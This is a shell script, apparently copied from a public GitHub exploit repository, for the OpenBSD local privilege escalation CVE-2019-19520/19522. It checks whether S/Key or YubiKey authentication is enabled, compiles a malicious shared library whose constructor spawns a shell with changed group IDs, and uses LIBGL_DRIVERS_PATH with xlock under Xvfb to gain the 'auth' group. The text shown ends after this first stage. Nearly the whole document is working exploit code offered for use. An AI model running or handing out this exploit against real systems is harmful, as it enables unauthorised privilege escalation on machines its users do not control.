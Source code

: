 ```text
# uid=0(root) gid=0(wheel) groups=0(wheel), 2(kmem), 3(sys), 4(tty), 5(operator), 20(staff), 31(guest)
# ---
# 2019-12-06 - <bcoles@gmail.com>
# https://github.com/bcoles/local-exploits/tree/master/CVE-2019-19520

echo "openbsd-authroot (CVE-2019-19520 / CVE-2019-19522)"

echo "[*] checking system ..."

if grep auth= /etc/login.conf | fgrep -Ev "^#" | grep -q yubikey ; then
  echo "[*] system supports YubiKey authentication"
  target='yubikey'
elif grep auth= /etc/login.conf | fgrep -Ev "^#" | grep -q skey ; then
  echo "[*] system supports S/Key authentication"
  target='skey'
  if ! test -d /etc/skey/ ; then
    echo "[-] S/Key authentication enabled, but has not been initialized"
    exit 1
  fi
else
  echo "[-] system does not support S/Key / YubiKey authentication"
  exit 1
fi

echo "[*] id: `id`"

echo "[*] compiling ..."

cat > swrast_dri.c << "EOF"
#include <paths.h>
#include <sys/types.h>
#include <unistd.h>
static void __attribute__ ((constructor)) _init (void) {
    gid_t rgid, egid, sgid;
    if (getresgid(&rgid, &egid, &sgid) != 0) _exit(__LINE__);
    if (setresgid(sgid, sgid, sgid) != 0) _exit(__LINE__);
    char * const argv[] = { _PATH_KSHELL, NULL };
    execve(argv[0], argv, NULL);
    _exit(__LINE__);
}
EOF

cc -fpic -shared -s -o swrast_dri.so swrast_dri.c
rm -rf swrast_dri.c

echo "[*] running Xvfb ..."

display=":66"

env -i /usr/X11R6/bin/Xvfb $display -cc 0 &

echo "[*] testing for CVE-2019-19520 ..."

group=$(echo id -gn | env -i LIBGL_DRIVERS_PATH=. /usr/X11R6/bin/xlock -display $display)

if [ "$group" = "auth" ]; then
  echo "[+] success! we have auth group permissions"
else
  echo "[-] failed to acquire auth group permissions"
  exit 1
fi

```